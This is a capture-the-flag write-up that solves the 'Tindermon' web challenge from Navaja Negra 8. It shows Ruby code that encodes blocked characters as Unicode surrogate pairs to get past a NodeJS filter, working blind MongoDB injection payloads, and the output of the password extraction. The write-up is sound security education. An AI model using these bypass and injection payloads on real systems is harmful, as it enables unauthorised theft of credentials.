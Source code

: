 ## Tindermon (Web)
This weekend, Navaja Negra 8 CTF started, organized by ka0labs.org. This web challenge has the following statement:

Get the admin password! There is a WAF and it is NodeJS... Easy peasy!
[http://tindermon.ka0labs.org](http://tindermon.ka0labs.org/)

### Intro
This challenge presents us a classic NodeJS + Express app. Source code of index is:
```
<html>
<!-- WebSite Created by the admin pikachu --!>
<title>Welcome to our Pokemon-Tinder!!!!!</title>
<body  style="background: pink">
<center><h1>List of Users Registered in Tindermon</h1>
<br><br><img  src="[/avatar/magikarp](http://tindermon.ka0labs.org/avatar/magikarp)"  height="480"  width="290">
<img  src="[/avatar/bulbasaur](http://tindermon.ka0labs.org/avatar/bulbasaur)"  height="480"  width="290">
<img  src="[/avatar/diglet](http://tindermon.ka0labs.org/avatar/diglet)"  height="480"  width="290">
</center></body>
</html>
```

Two interesting things here:

- The admin username is pikachu
- There's a route /avatar/```username``` which, when visited, redirects us to /img/``ìd``.jpg where id seems to be the user id.

```
GET /avatar/magikarp HTTP/1.0

-> 302 Found, Location: /imgs/1.jpg
```

#### Not that easy, there's a "WAF"
Testing some characters show us that there's some kind of check for the following chars:
```" ' . (space)```
Why those characters and not others like > or <? Because (not-so-obviously) what they are trying to avoid is a NoSQL Injection, probably on a MongoDB database.

So logic seems to be:

- Express router process the request.
- Controller search for the URL parameter, which is everything following /avatar/ to the next "/" and is intended to be a username.
- Looks for the username in MongoDB, if exists, returns a 302 redirection to users image path.

Easy right? We are in front a NoSQL Injection challenge like many others, but this time we need to figure out how to bypass NodeJS checks.

Well, at first, some tricks come to my mind, such as Orange Tsai's 2017 Black Hat presentation about  NodeJS inconsistency on parsing Full-Width Characters: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

#### Reading a bit about how JavaScript Unicode decoding standards works.

This article give us some keys https://mathiasbynens.be/notes/javascript-unicode. As the article says, for backwards compatibility with ES5 and older standards,  unicode are divided in groups of two, each one of 2 bytes, this are called "surrogate pairs".

So, for example, the emoji 💩 becomes ```\uD83D\uDCA9```. How this split is done? The answer is, again, in the same blog: https://mathiasbynens.be/notes/javascript-encoding
```
H = Math.floor((C - 0x10000) / 0x400) + 0xD800  
L = (C - 0x10000) % 0x400 + 0xDC00
```

Cool, at this point a hint is released, the hint are some emojis, so it's clear, we need some Unicode trick to bypass NodeJS checks. But, do not forget, those unicodes needs to make sense for MongoDB, which is the final endpoint of our string.

#### Error, error, error, error, victory!
After a lot of testing and a key of my man X-C3LL, seems that MongoDB is reading the least significant byte of each surrogate pair, well, let's test if this is true using ```"||"1"=="1``` payload,  but remember, we can't just use ```"```, so we need to figure out a unicode which contains 0x22 and 0x7C as their least significant bytes of each surrogate pair.

```
# This receives a string of two characters, and looks for a unicode hex who's surrogate pairs least significant byte, match each character hex representation.
def uni(find)
  for i in 0...0xFFFFF
    h = (((i - 0x10000) / 0x400) + 0xD800).to_i.to_s(16)[-2..-1].to_i(16).chr
    l = ((i - 0x10000) % 0x400 + 0xDC00).to_i.to_s(16)[-2..-1].to_i(16).chr

    if(h == find[0] && l == find[1])
      return URI.encode [i.to_i].pack('U')
    end
  end
end
```
A return without the URI encode for the string ```"|```, the unicode ```\u{1887c}```  when divided in surrogate pairs:
```
H: 0xD822
L: 0xDC7C
```
Their least significant byte's match with ```"```and ```|``` respectively.

So we got some restrictions to bypass using this trick, those restrictions are the characters forbidden by backend controller, a bit of code helps me to create strings based on this trick for the restricted characters:

```
# Takes pairs of characters where a forbidden char is and
# converts it to unicode representation.
def convert_forbidden(string)
  final_string = ""
  skip = false
  for i in 0..string.length-1 do
      if !skip then
        if $waf.include? string[i] then
          res = uni(string[i] + string[i+1])
          final_string += res
          skip = true
        else
          final_string += URI.encode string[i]
        end
      else
        skip = false
      end
  end

  return final_string.gsub("/","%2F").gsub("[","%5B").gsub("]","%5D").gsub("&","%26")
end
```

For the string ```"||"1=="1``` this returns: ```%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1```

Testing on the live application, it works!! ```/avatar/%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1``` returns 1.jpg, the same process but using "1"=="0" instead of "1" =="1" returns us 404.jpg. So we can confirm the injection.

#### Exploiting Blind NoSQL Injection 
Now we need to write a bit more code to exfiltrate data, byte by byte. After some digging and refresh of MongoDB basics, it ended up on this payload:

```pikachu"&&(this.password.match(/^_string_/))=="_string_"||"1"=="0```

This will return true only if the string starts with the _string_ value. Look at the script to get more details if you are unfamiliar with Blind techniques.

#### Run and gimme the flag!
Running the final script starts exfiltrating us the password for the user pikachu, character by character, but we know that flag starts with ```nn8ed{```, so some work is done:
```
Found! nn8ed{T
Found! nn8ed{Th
Found! nn8ed{Thi
... (lot of time)
Found! nn8ed{This.Old.Challenge.With.Unic0de}
```

So there's the flag. Super funny challenge, I learned a lot about how NodeJS 8 works with Unicode and how inconsistencies at encoding treatment can compromise a system. 

Congratz to ka0labs.org for this great challenge!
